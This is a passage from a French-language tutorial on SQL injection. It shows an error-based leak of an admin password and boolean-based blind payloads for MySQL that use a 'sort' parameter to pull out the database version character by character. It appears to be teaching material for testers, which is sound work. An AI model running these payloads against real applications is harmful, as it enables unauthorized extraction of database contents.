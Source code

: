 ```sql
SQLSTATE[22P02]: Invalid text representation: 7 ERREUR:  syntaxe en entrée invalide pour le type numeric : « 1, admin, Mon mot de passe est passw0rd »
```

### Boolean-based

Une exploitation de type boolean-based est une technique d'injection SQL qui nécessite la capacité de distinguer les cas où l'application répond par vrai ou faux en fonction des conditions logiques insérées dans les requêtes SQL.

L'exploitation de ce type est plus longue que celle basée sur les erreurs. C'est pourquoi seule une partie des requêtes sera présentées. De plus, les exemples utilisent l'opérateur `=` pour tester un caractère spécifique. Lors d'une attaque sans connaître la base de données, il est préférable d'utiliser les opérateurs `>` et `<` et d'effectuer une attaque par dichotomie pour gagner en rapidité.

#### MySQL

_Exploitation du paramètre "sort"_

La payload utilisée est celle-ci :

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING(DATA_TO_RETRIEVE,1,1))=ORD('CHAR_TO_RETRIEVE')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

Lorsque la condition est vraie, le résultat sera trié par la colonne "lastname". Sinon, selon l'application, une erreur générique ou une page blanche sera renvoyée.

`CASE` : Permet d'exécuter une instruction conditionnelle.

`WHEN` : Condition de l'instruction conditionnelle.

`ORD` : Retourne le code ASCII du premier caractère d'une chaîne de caractères.

`SUBSTRING` : Extrait une sous-chaîne.

`THEN` : Lorsque le condition est vérifiée, le résultat est trié par la colonne "lastname".

`ELSE` : Lorsque la condition n'est pas vérifiée, l'utilisation de l'UNION retourne un résultat composé de deux valeurs, ce qui provoque une erreur "SQLSTATE\[21000]: Cardinality violation: 1242 Subquery returns more than 1 row".&#x20;

Récupération de la version de MySQL :&#x20;

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING(VERSION(),1,1))=ORD('1')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING(VERSION(),2,1))=ORD('0')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

```sql
(SELECT (CASE WHEN (ORD(SUBSTRING(VERSION(),3,1))=ORD('.')) THEN lastname ELSE (SELECT 1 UNION SELECT 2) END))
```

